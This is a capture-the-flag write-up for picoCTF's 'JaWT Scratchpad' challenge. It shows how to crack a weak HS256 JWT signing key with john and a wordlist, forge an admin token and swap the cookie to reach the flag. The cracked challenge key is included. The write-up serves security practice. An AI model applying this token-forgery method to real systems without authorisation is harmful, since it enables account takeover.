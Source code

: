 # JaWT Scratchpad

## Description

Check the admin scratchpad! 
https://jupiter.challenges.picoctf.org/problem/58210/ 
or http://jupiter.challenges.picoctf.org:58210

## Solution

From the website we known that we only can access the flag if we are an admin.
Then, login using random username and you will get your cookies token.

copy that, and paste on jwt.io to do jwt-decoder.

we get this information

```js
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "user": "yourname
}
```
change the `user` to `admin`, then encode jwt.

But, we need the signature key, so we must find it first. 
Here, I use `john` to help me brute forcing the signature

copy your original cookies token, then paste on textfile
then, do this command

```js
$ john weakjwt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)
1g 0:00:00:01 DONE (2025-03-18 00:10) 0.5813g/s 4305Kp/s 4305Kc/s 4305KC/s ilovetitor..ilovejesus789
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
so the signature key is : `ilovepico`

Back to jwt.io, put the key on signature section, then encode it.
After you get you jwt, copy and paste on website cookie, then refresh to get flag.

![jwt](/assets/jwt_4wjmtzyz0.PNG)
## Flag
